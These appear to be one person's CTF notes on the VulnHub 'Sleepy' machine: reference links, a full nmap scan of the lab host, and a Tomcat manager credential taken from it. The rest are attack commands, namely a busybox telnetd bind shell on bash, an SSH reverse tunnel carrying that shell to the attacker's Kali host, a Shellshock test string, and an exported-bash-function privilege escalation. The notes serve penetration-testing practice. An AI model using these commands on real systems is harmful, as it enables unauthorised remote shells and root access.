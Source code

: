 https://g0blin.co.uk/devrandom-sleepy-vulnhub-writeup/
http://devloop.users.sourceforge.net/index.php?article138/solution-du-ctf-dev-random-sleepy-de-vulnhub

https://highon.coffee/blog/sleepy-ctf-walkthrough/

https://www.serma-safety-security.com/vulnerabilite-critique-sur-bash-cve-2014-6271-shellshock/

https://www.minttm.com/takeover-shellshocker-net


Machines : shellshock, symfonos 2, sleepy

└─$ sudo nmap -sT -A -T4 -Pn -n -p- 10.0.1.46 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 06:23 CET
Nmap scan report for 10.0.1.46
Host is up (0.00028s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.0.1.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
9001/tcp open  jdwp    Java Debug Wire Protocol (Reference Implementation) version 1.6 1.7.0_71
|_jdwp-info: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:7E:54:00 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13, Linux 3.10, Linux 3.4 - 3.10
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.28 ms 10.0.1.46

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.78 seconds



get sleepy.png



user username="sl33py" password="Gu3SSmYStR0NgPa$sw0rD!" roles="tomcat,manager-gui,admin-gui,admin,manager-jmx,admin-script,manager,manager-script,manager-status"/>

./busybox telnetd -l /bin/bash -p 4444

ssh kali@10.0.1.1 -R 4444:127.0.0.1:4444 -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no


SHELLSHOCK
bash-4.2$ env x='() { :;}; echo vulnerable' bash -c "echo test"

bash-4.2$ function /usr/bin/sl () { /bin/bash; }
bash-4.2$ export -f /usr/bin/sl



